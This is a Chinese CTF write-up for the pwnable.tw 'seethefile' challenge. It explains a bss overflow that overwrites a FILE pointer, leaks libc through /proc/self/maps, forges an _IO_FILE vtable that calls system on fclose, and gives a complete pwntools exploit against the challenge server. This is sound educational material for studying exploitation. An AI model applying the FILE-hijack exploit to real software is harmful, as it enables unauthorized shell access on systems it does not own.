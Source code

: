 ```yaml
---
title: 和媳妇一起学Pwn 之 seethefile
date: 2020-04-03 00:00:00
categories:
- CTF/Pwn
tags: pwnable.tw  _IO_FILE
---
```


> 漏洞点是：存在一个位于bss段的变量输入溢出，溢出后可以覆盖一个IO_FILE结构体的指针。

> 利用方式：利用题目读取文件的功能通过linux的proc伪文件系统泄露libc基址，然后溢出IO_FILE的指针指向一个伪造IO_FILE结构体，并且根据libc基址伪造虚表。当伪造的结构体被fclose使用时，虚函数将被调用，即可getshell。

- 题目地址：[https://pwnable.tw/challenge/#9](https://pwnable.tw/challenge/#9)

## 检查

```bash
➜  file seethefile
seethefile: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=04e6f2f8c85fca448d351ef752ff295581c2650d, not stripped
➜  checksec seethefile
[*] '/Users/Desktop/pwn/pwnable/seethefile/seethefile'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32位程序，除了NX，剩下的保护没开，没去符号表。

## 漏洞点

程序本身的功能是可以打开，读取，关闭文件，还可以将读取的内容打印出来。不过一次只能读取0x18F个字节，而且不能读flag文件。输入文件名和读取文件内容的地方都做好了边界控制，没有什么问题，不过在退出时：

```c
case 5:
printf("Leave your name :");
__isoc99_scanf("%s", &name);
```

这里没有检查输入name的长度，导致可以覆盖name后面的内存。位于bss段的name后面就是那个文件的fp指针，之后又去调用了fclose并传入了这个fp指针，这里就是漏洞点所在。

## `_IO_FILE`

在利用之前，我们先来学习`_IO_FILE`。不过在学`IO_FILE`之前，我们先了解两个函数`open`和`fopen`：

- [总结open与fopen的区别](https://www.jianshu.com/p/5bccc0a0bbbf)
- [C fopen vs open](https://stackoverflow.com/questions/1658476/c-fopen-vs-open)
- [Linux（C/C++）下的文件操作open、fopen与freopen](https://blog.csdn.net/qq_38374864/article/details/72903920)
- [C语言中open与fopen的的解释和区别](https://blog.csdn.net/LEON1741/article/details/78091974)
- [C语言中文件描述符和文件指针的本质区别](https://blog.csdn.net/xzhKSD123/article/details/96167556)

|          | 文件描述符（低级IO）  | 文件流/文件指针（高级IO）       |
| -------- | --------------------- | ------------------------------- |
| 标准     | POSIX                 | ANSI C                          |
| 层次     | 系统调用                | libc                            |
| 数据类型 | int                   | FILE *                          |
| 函数     | open/close/read/write | fopen/fclose/fread/fwrite/fseek |

所以要学习的`_IO_FILE`就是fopen这套libc实现的高级IO操作相关的一个结构体`_IO`是值其所在是libc的IO库中，所以说的FILE结构体值指的就是`_IO_FILE`，在stdio.h的头文件中有typedef：

> /usr/include/stdio.h

```c
struct _IO_FILE;
typedef struct _IO_FILE FILE;
typedef struct _IO_FILE __FILE;
extern struct _IO_FILE *stdin;		/* Standard input stream.  */
extern struct _IO_FILE *stdout;		/* Standard output stream.  */
extern struct _IO_FILE *stderr;		/* Standard error output stream.  */
```

至此我们可以开心的学习`_IO_FILE`了

- [FILE Structure Description](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/introduction-zh/)
- [_IO_FILE利用思路总结](https://b0ldfrev.gitbook.io/note/pwn/iofile-li-yong-si-lu-zong-jie)
- [_IO_FILE部分源码分析及利用](http://dittozzz.top/2019/04/24/IO-FILE%E9%83%A8%E5%88%86%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90%E5%8F%8A%E5%88%A9%E7%94%A8/)
- [IO FILE 之劫持vtable及FSOP](http://blog.eonew.cn/archives/1103)
- [IO file结构在pwn中的妙用](https://xz.aliyun.com/t/6567)
- [IO FILE 学习笔记](https://veritas501.space/2017/12/13/IO%20FILE%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

一句话概括为啥要研究`_IO_FILE`：**libc实现的文件流机制中存在可以被改写的函数指针**

## 利用

所以本题的思路很清晰了，通过改写bss段的FILE指针到我们伪造的结构体上，并布置好虚表即可getshell。

### 泄露libc

本题泄露libc的基址实在是没啥技术含量，因为直接能读文件，所以直接利用linux的proc伪文件系统读取`/proc/self/maps`即可获得libc基址，不过本地和远程的布局可能有些许的不同，因为一次最多只能读取0x18f个字节，所以可能需要读两次才能读到libc的基址。

### 伪造IO_FILE结构体及虚表

因为在退出的时候，我们可以无限写bss段往后的内存，所以我们把构造的fake FILE也放到这里，并且bss段地址是已知的，这样也才能提前计算fake FILE的地址，以便覆盖程序的fp指针。并且本题给的libc版本为2.23,libc2.24以下的版本没有对虚表进行检查，所以直接伪造即可。当然就算存在检查也是可以想办法绕过的。


```python
fakeFILE = 0x0804B284
payload  = 'a'*0x20
payload += p32(fakeFILE)
payload += p32(0xffffdfff)
payload += ";$0"+'\x00'*0x8d
payload += p32(fakeFILE+0x98)
payload += p32(system_addr)*3
```

### 完整exp

```python
from pwn import *

context(arch='i386',os='linux',log_level='debug')
myelf  = ELF("./seethefile")
libc   = ELF("./libc_32.so.6")
io     = remote("chall.pwnable.tw",10200)

sla          = lambda delim,data       :io.sendlineafter(delim, data) 
openfile     = lambda name :  (sla("choice :","1"),sla("see :",name))
readfile     = lambda      :  (sla("choice :","2"))
showfile     = lambda      :  (sla("choice :","3"))
leave        = lambda name :  (sla("choice :","5"),sla("ame :",name))

# leak libc
openfile("/proc/self/maps")
readfile()
showfile()
io.recvuntil("[heap]\n")
libc_addr = int(io.recv(8),16)+0x1000
system_addr = libc_addr +libc.symbols['system']

# make fake file
fakeFILE = 0x0804B284
payload  = 'a'*0x20
payload += p32(fakeFILE)
payload += p32(0xffffdfff)
payload += ";$0"+'\x00'*0x8d
payload += p32(fakeFILE+0x98)
payload += p32(system_addr)*3

# getshell
leave(payload)
io.interactive()
```

## 参考

- [pwnable.tw系列](https://n0va-scy.github.io/2019/07/03/pwnable.tw/)